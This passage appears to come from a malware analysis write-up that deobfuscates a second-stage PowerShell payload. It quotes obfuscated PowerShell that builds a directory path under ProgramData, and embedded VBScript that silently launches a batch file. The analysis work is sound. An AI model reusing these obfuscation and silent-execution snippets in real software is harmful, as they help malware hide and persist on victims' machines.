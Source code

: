 In this phase, the code will not be explained in detail to optimise time, as it contains sufficient comments and is self-explanatory.


#### Analysis of PowerShell Script Obfuscation

The provided PowerShell script demonstrates various obfuscation techniques to conceal its true purpose. Below is a breakdown of the script, focusing on the structure, variable usage, and the potential functionalities hidden within the obfuscation as discovered and shown Fig 8.

![Second Payload Deobfuscated](/assets/images/zoom/second_payload_deobsf.png)
*Figure 8: Second Payload Deobfuscated*

#### Key Components

1. **Variable Assignment and Obfuscation**:
   - The script begins by assigning the value `a6p` to a variable using the `sET-iTem` command, which is an unusual way to define a variable. 
   - The variables are obfuscated using string formatting and replacement techniques. For example:
     ```powershell
     ${D} = ((("{2}{5}{4}{3}{0}{6}{1}" -f 'Datap','ualsp8P','C','ram','g',':p8PPro','8PMusicp8PVis'))-rEplAcE([CHar]112+[CHar]56+[CHar]80),[CHar]92)
     ```
   - Here, the variable `${D}` is constructed using formatted strings, making it difficult to immediately identify its purpose.

2. **Functionality Execution**:
   - The script attempts to create a new directory using the constructed path stored in variable `${d}`:
     ```powershell
     &("{0}{1}"-f'New-','Item') -ItemType ("{2}{1}{0}" -f 'y','ctor','Dire') -Path ${d} -Force
     ```
   - The usage of string formatting in the command further obfuscates its function.

3. **Script Content and Execution**:
   - The script defines a block of VBScript content stored in variable `${co`NT`ENt}`:
     ```powershell
     ${co`NT`ENt} = @'
     On Error Resume Next
     Sub zjte
         Dim sbyjn
         Set sbyjn = CreateObject("WScript.Shell")
         sbyjn.Run "C:\ProgramData\Music\Visuals\VsEnhance.bat", 0, True
     End Sub
     zjte
     '@
     ```
   - This VBScript is designed to execute a batch file silently, indicating a potential malicious intent.
